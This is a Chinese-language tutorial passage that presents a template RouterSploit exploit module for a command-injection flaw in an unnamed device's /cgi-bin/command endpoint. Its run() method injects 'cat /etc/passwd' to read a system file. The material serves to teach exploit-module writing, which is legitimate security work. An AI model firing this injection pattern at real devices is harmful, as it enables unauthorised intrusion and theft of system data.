 2. 编写示例
以下是一个简单的HTTP漏洞利用模块的模板：
from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient

class Exploit(HTTPClient):
    __info__ = {
        "name": "Sample HTTP RCE",
        "description": "This module exploits a remote code execution vulnerability in Sample Device.",
        "authors": ("YourName",),
        "references": (
            "CVE-YYYY-XXXXX",
            "URL to advisory"
        ),
        "devices": (
            "Vendor Model Version",
        ),
    }

    target = OptIP("", "Target IP address")
    port = OptPort(80, "Target HTTP port")

    def __init__(self):
        self.vuln_path = "/cgi-bin/command"

    def check(self):
        # 检查目标是否脆弱
        mark = utils.random_text(6)
        command = "echo {}".format(mark)
        data = {
            "cmd": command
        }

        response = self.http_request(
            method="POST",
            path=self.vuln_path,
            data=data
        )

        if response is None:
            return False

        if mark in response.text:
            return True

        return False

    def run(self):
        if self.check():
            print_success("Target is vulnerable")
            # 利用漏洞，例如执行命令
            command = "cat /etc/passwd"
            data = {
                "cmd": command
            }
            response = self.http_request(
                method="POST",
                path=self.vuln_path,
                data=data
            )
            if response is None:
                print_error("Exploit failed")
                return
            print_info("Response: {}".format(response.text))